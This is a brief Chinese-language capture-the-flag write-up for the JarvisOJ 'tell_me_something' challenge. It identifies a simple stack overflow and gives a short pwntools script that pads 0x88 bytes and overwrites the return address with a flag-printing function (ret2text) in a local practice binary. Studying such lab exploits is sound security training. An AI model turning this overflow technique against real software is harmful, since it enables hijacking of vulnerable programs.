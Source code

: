 ```yaml
---
title: "Jarvisoj_tell_me_somethings"
description: ""
date: 2023-04-07T17:59:44+08:00
lastmod: 2023-04-07T17:59:44+08:00
draft: false
images: []
type: docs
weight: 978
toc: true
---
```


## 0x01 分析

![](image-1680861634841-1.png)  

简单的栈溢出

![](image 2-1680861634842-2.png)  

有一个打印flag的函数，所以直接ret2text即可

## 0x02 Exploit

```python
from pwn import*
o = process("./pwn")
elf = ELF("./pwn")
good_game = elf.sym['good_game']
payload = b'a'*0x88 + p64(good_game)
o.sendline(payload)
o.interactive()

```

![](image 3-1680861634842-3.png)  

自行调试
